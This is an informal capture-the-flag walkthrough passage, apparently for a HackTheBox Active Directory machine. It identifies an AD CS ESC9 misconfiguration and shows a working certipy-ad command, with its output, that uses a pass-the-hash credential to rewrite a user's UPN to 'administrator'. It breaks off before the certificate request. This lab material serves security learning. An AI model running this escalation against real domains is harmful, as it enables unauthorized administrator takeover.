 ```sh
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```
alright its ESC9!!!

![alt text](<../assets/images/Screenshot 2025-03-12 at 22-39-48 ly4k_Certipy Tool for Active Directory Certificate Services enumeration and abuse(1).png>)

BUT YEAH WE [blog_post](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7?gi=a6e7f3ed71c2) for this

![alt text](<../assets/images/Screenshot 2025-03-12 at 22-40-59 Certipy 4.0 ESC9 & ESC10 BloodHound GUI New Authentication and Request Methods — and more! by Oliver Lyak IFCR.png>)

everything we need is here!!!!

but we will do it with Management_svs account!

### Updating UPN of ca_operator

```sh
➜  certified certipy-ad account update -username management_svc@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn administrator           
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```
### Request Administrator pfx file

before do this we need CA and Template its on the certipy-ad find command!!

![alt text](../assets/images/Screenshot_2025-03-12_22_45_16.png)
